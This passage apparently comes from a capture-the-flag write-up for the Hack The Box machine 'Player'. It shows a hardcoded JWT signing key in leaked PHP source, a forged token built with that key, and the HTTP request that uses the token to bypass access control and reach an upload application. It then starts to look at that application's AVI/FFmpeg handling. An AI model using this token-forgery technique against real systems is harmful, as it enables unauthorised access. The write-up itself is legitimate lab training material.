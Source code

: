 ```php
}
else
{
	$token_payload = [
	  'project' => 'PlayBuff',
	  'access_code' => 'C0B137FE2D792459F26FF763CCE44574A5B5AB03'
	];
	$key = '_S0_R@nd0m_P@ss_';
	$jwt = JWT::encode($token_payload, base64_decode(strtr($key, '-_', '+/')), 'HS256');
	$cookiename = 'access';
	setcookie('access',$jwt, time() + (86400 * 30), "/");
	header("Location: index.html");
}
```

In there is the key in plain-text for the JWT Token:
```
_S0_R@nd0m_P@ss_
```

This code sends us to _index.html_ with the current access code.
But when using the access code _"0E76658526655756207688271159624026011393"_, it will forward to _"7F2xxxxxxxxxxxxx"_, so lets create a new the JWT Token.

I will use the website [jwt.io](https://jwt.io/) to create the JWT token:

![Creating token on jwt.io](https://kyuu-ji.github.io/htb-write-up/player/player_web-6.png)

New token:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwcm9qZWN0IjoiUGxheUJ1ZmYiLCJhY2Nlc3NfY29kZSI6IjBFNzY2NTg1MjY2NTU3NTYyMDc2ODgyNzExNTk2MjQwMjYwMTEzOTMifQ.VXuTKqw__J4YgcgtOdNDgsLgrFjhN1_WwspYNf_FjyE
```

Sending the request to the PHP page with the new cookie:
```
GET /launcher/dee8dc8a47256c64630d803a4c40786c.php HTTP/1.1
Host: player.htb
(...)
Cookie: access=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwcm9qZWN0IjoiUGxheUJ1ZmYiLCJhY2Nlc3NfY29kZSI6IjBFNzY2NTg1MjY2NTU3NTYyMDc2ODgyNzExNTk2MjQwMjYwMTEzOTMifQ.VXuTKqw__J4YgcgtOdNDgsLgrFjhN1_WwspYNf_FjyE
```

It responds with a HTTP code _302 Found_ and forwards to _launcher/7F2dcsSdZo6nj3SNMTQ1_, which is the _"PlayBuff"_ application:

![PlayBuff application](https://kyuu-ji.github.io/htb-write-up/player/player_web-7.png)

### Analyzing PlayBuff application

In this application, it is possible to upload files and after uploading, the link to the file is shown as _launcher/7F2dcsSdZo6nj3SNMTQ1/uploads/293521335.avi_.
So it is expecting **AVI video files** and a popular codec for these files is **FFmpeg**.
